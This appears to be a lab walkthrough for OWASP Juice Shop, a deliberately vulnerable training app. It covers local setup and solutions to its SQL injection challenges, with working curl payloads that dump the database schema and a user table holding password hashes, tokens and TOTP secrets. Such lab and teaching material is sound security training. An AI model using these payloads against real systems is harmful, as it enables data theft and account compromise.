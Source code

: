 # Juice Shop

Resources

* [Official documentation](https://owasp.org/www-project-juice-shop)
* [Pwning OWASP Juice Shop](https://help.owasp-juice.shop)

Local setup

```bash
# starts vulnerable box
hckctl box start vulnerable/owasp-juice-shop

# starts attack box
hckctl box start parrot-sec

# default password: parrot
# vnc/noVNC copy&paste clipboard: CTRL+SHIFT+C/V
vncviewer localhost:5900

# install burp
burpsuite

# install add-on
# name: burpsuite
# address: localhost
# port: 8080
install_firefox_foxy_proxy
```

<!--

TODO
* box alias/hostname i.e. box-owasp-juice-shop-7159w:3000 -> juice:3000
* kali-ui
* parrot-web

-->

## Challenges

* [Challenge hunting](https://help.owasp-juice.shop/part2/)

### Finding the Score Board

Guess link is `http://box-owasp-juice-shop-<RANDOM>:3000/#/score-board`

### Injection

Resources
* [SQL injection](https://portswigger.net/web-security/sql-injection)

With burp look for a request with parameters
```bash
# sent to intruder
#GET /rest/products/search?q=';

# show SQLi vulnerability
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

Order the Christmas special offer of 2014
```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

# with firefox or burp edit and send a POST request with ProductId=10
#http://box-owasp-juice-shop-0eruj:3000/api/BasketItems
#{"ProductId":10,"BasketId":"6","quantity":1}
```

Exfiltrate the entire DB schema definition via SQL Injection
```bash
# Products table has 9 columns (see json above)
# to fix "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
# add N static columns in order to match them
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

Log in with the (non-existing) accountant without ever registering that user
```bash
TODO
```

Retrieve a list of all user credentials via SQL Injection
```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
